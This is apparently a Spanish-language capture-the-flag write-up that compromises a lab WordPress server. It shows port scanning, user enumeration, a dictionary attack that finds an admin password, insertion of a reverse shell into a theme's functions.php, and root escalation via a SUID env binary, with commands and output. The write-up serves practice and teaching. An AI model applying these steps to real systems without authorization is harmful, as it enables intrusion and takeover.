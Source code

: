 # Writeup
## Recon
Comenzamos por lanzar un escaneo de puertos como de costumbre, para identificar servicios y versiones en todos los puertos abiertos mediante TCP.
```bash
nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmap_TCP.xml && xsltproc nmap_TCP.xml -o nmap_TCP.html && open nmap_TCP.html &>/dev/null & disown
```
El escaneo muestra un servidor HTTP sirviendo una página en el puerto 80 y nada más a primera vista, por lo que vamos a echarle un vistazo al contenido de esta. Al visitarla solo me encuentro con la página default de Apache, así que voy a probar a lanzar un fuzzeo con ffuf en busca de directorios ocultos para ampliar un poco la superficie de ataque. Después de solo un par de segundos ffuf encuentra /wordpress.
### WordPress
En esta ruta hay poca cosa, un artículo que se encuentra en http://172.17.0.2/wordpress/index.php/pagina-ejemplo/ algún enlace muerto. Sin duda alguna se trata de un WordPress así que voy a utilizar WhatWeb para identificar la versión mientras dejo ffuf trabajando en los directorios dentro de /wordpress. El fuzzeo no encuentra nada que no me esperase, una licencia, un readme, y el panel de login de WP, por otro lado, whatweb dice que estamos ante un WordPress 6.8.2.

Investigando me encuentro con que las versiones de WP anteriores a las 6.9 que utilizan el plugin wp-file-manager son susceptibles a la ejecución arbitraria de código PHP, lo que nos podría permitir acceder al sistema mediante una reverse shell.

Utilizando WPScan veo que la página no tiene instalado el plugin en cuestión, pero probando más parámetros en wpscan encuentro un usuario: **mario**.
```bash
wpscan --url http://172.17.0.2/wordpress/ -e u

[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

```
Ahora, ya sabiendo el usuario vamos a probar a lanzar un ataque diccionario.
### Ataque diccionario
En apenas unos segundos, encontramos la contraseña para el usuario **mario**
```bash
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                              
Trying mario / love Time: 00:00:02 <                                                          > (390 / 14344783)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love

```
## Exploit
### Reverse Shell
Desde dentro del panel de admin de WP, editamos desde el Theme Code Editor el archivo functions.php y le añadimos la reverse shell de Pentest Monkey, una vez hecho, refrescamos y ya estamos dentro como www-data.
## Post
Al intentar hacer sudo -l no me deja, así que instlado LinPEAS para automatizar el escalado de privilegios. Gracias a LinPEAS encuentro que el /usr/bin/env se ejecuta con privilegios de root, así que vamos a tratar de escalar a través de ese vector. Una vez llegados a este punto, es tan sencillo como ejecutar `usr/bin/env /bin/sh -p`, y ya somos root:
```bash
www-data@e7f63e892112:/$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
whoami
root
```
